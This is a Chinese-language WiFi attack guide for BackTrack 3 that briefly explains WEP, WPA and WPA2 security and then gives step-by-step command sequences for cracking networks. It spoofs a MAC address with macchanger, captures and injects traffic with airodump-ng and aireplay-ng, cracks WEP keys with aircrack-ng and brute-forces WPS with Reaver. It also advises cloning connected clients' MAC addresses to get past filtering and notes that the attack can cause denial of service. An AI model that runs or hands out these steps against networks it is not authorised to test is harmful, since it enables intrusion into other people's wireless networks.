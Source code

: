 # WiFi攻击指南(bt3)


## 理论

### WEP

WEP，或者说是有限等效加密，是第一种被采用的无线安全体制。顾名思义，它旨在为终端用户提供基本等同于有限环境中享有的隐私安全性。但这个机制不幸地失败了。 

由于许多原因，由于RC4加密算法有缺陷的实现方法，导致WEP极其容易被破解。5分钟内破解WEP并不罕见。这是因为WEP使用可以在数据流中被捕获的非常短的初始化向量，这个初始化向量可以被用于使用统计技术发现密码。

### WPA

WPA是工业界对于WEP的被公开的弱点的应对系统。为了与WPA2区别开来，它通常被称为WPA1。

WPA使用了临时密钥完整性协议(TKIP)来在不需要新的硬件设施的情况下，提升WEP的安全性。它仍然使用WEP来加密，但它使得用于攻击WEP的统计攻击更加困难和费时。


### WPA2-PSK

WPA2-PSK是给家庭或小型企业用户的WPA2实现。顾名思义，它是使用预先共享密钥(PSK)的WPA2实现。这是如今大多数家庭使用的安全标准，虽然安全性更高，但仍然容易受到各种攻击。

2007年添加的Wifi保护设置的功能，允许我们绕过WP2-PSK的安全性。

### WPA2-AES
WPA2-AES是WPA2的企业级实现。它使用高级加密标准或AES加密数据，是最安全的。它通常与专用于身份验证的RADIUS服务器相结合。



## 攻击WIFI密码：


### 攻击WEP

（成功取决于与无线接入点的远近）

1) 更改你的MAC地址

```
$ airmon-ng ---> take note of the name of your network interfaces (example wlan0)
$ airmon-ng stop INTERFACENAME
$ ifconfig INTERFACENMAE down
$ macchanger --mac 00:11:22:33:44:55
```

2) 选取你的网络(BSSID):

```
$ airodump-ng INTERFACENAME
```

3) 查看网络上发生的情况并把信息捕获到文件中：

```
$ airodump-ng -c CHANNEL -W FILENAME --bssid BSSID INTERFACENAME
```

4) 打开一个新的控制台和类型(ESSID是无线接入点的SSID名):

```
$ aireplay-ng -1 0 -a BSSID -h 00:11:22:33:44:55 -e ESSID INTERFACE
$ aireplay-ng -3 -b BSSID -h 00:11:22:33:44:55 INTERFACE
```

5) 一旦你收集了足够的数据，打开第三个控制台并攻击数据：

```
$ aircrack-ng -b BSSID FILENAME-01.cap
```


### 攻击WPA

* 这大约需要2-6小时。
* 可以导致DoS攻击。
* 如果路由器有MAC过滤功能，那么使用网络监控工具查找与路由器连接的系统的MAC地址，然后将其设置为攻击平台的地址。

1) 找到你的无线网卡：

```
$ iwconfig
```

2) 将无线网卡设置为监听模式：

```
$ airmon-ng start wlan0
```

或

```
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up
```

3) 找到路由器的BSSID来攻击
```
$ airodump-ng wlan0 --> mon0 if this does not work
```

4) 使用Reaver攻击Network的WPA密码：

```
$ reaver -i mon0 -b BSSID -vv
```

